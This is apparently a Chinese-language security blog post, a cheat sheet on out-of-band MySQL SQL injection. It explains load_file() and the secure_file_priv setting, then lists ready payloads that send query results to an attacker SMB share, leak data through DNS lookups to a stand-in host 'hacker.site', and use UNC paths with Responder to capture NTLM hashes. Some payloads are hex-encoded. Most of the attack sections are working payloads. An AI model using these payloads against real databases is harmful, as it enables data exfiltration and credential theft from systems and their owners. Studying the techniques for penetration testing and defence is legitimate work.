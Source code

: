 ```yaml
---
layout: post
title: "SQL injection 文件操作 OOB"
description: ""
date: 2023-07-11
categories:
  - SQL_Injection
  - SQL_Injection_OOB
author: ""
tags: ['SQL_Injection', 'OOB']
---
```




# SQL injection 文件操作 OOB

###### tags: `sql injection`


## load_file读文件

### 設置Load_file狀態
在MySQL注入中DNSlog外帶主要利用MySQL內置函數load_file()函數，load_file()不僅能讀取本地文件也能通過UNC的方式讀取遠程文件。

### Load_file函數狀態：
要求用户具有file权限 通常root 才有

當secure_file_priv為空，則表示沒有任何限制。

當secure_file_priv為指定目錄，則表示數據庫導入導出只能在指定目錄。

當secure_file_priv為null，則表示不允許導入導出（MySQL 5.7 默認值）

### MySQL中查詢secure_file_priv有以下方式

```
show variables like '%secure%';

select @@global.secure_file_priv;
```

以上部分內容轉載自:
https://www.freebuf.com/articles/web/323674.html



## MYSQL 帶外
這是window 橫向滲透，自己開啟一個共享資料夾(所有人可寫入)，然後把資料帶到自己的資料夾。

```
select @@version into outfile '\\\\192.168.0.100\\temp\\out.txt';
select @@version into dumpfile '\\\\192.168.0.100\\temp\\out.txt;
```

## DNS Log
```
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874))
```


## UNC 路徑 - NTLM 哈希竊取
需要用 responder 工具。基於錯誤的UNC PATH

```
select load_file('\\\\error\\abc');
select load_file(0x5c5c5c5c6572726f725c5c616263);
select 'osanda' into dumpfile '\\\\error\\abc';
select 'osanda' into outfile '\\\\error\\abc';
load data infile '\\\\error\\abc' into table database.table_name;
```